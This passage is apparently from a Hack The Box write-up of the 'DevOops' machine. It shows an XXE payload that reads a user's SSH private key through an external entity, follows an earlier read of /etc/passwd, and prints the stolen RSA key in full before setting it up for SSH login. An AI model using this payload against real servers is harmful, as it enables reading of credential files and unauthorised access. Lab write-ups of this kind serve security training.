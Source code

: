 As you can see we are visualizing the contents of the file **/etc/passwd**  

To continue we will intercept the requests with Burpsuite and then taking into account that this victim machine is running an SSH server it is very likely to find a private key of some user.  

![BurpDevoops](https://hackingprofessional.github.io/HTB/assets/img/posts/BurpDevoops.png "Intercepting request for exploiting XXE")  

We know we need an SSH private key in order to log in via SSH.  
Private keys are typically stored in the **/home/username/.ssh/id_rsa** file.  
To visualize the content of the user's private key *roosa*, which was identified thanks to the /etc/passwd file, we must create the following malicious file:  

```xml
<?xml version="1.0"?>
  <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >
  ]>
  <feed>
    <Author>Gerh</Author>
    <Subject>BinaryChaos</Subject>
    <Content>&xxe;</Content>
  </feed>
```

After uploading the previous file, the result is as follows:

![Burp2Devoops](https://hackingprofessional.github.io/HTB/assets/img/posts/Burp2Devoops.png "Intercepting request for exploiting XXE")  

## How to connect ssh with private key  

Since we have copied RSA Private KEY in a text file named as “key”, then set permission 600 and try to login with the help of the following command.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[0]─[4444]
╰─[:)] # cat > key
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/devoops]─[root@Arthorias]─[0]─[4444]
╰─[:)] # chmod 600 key
```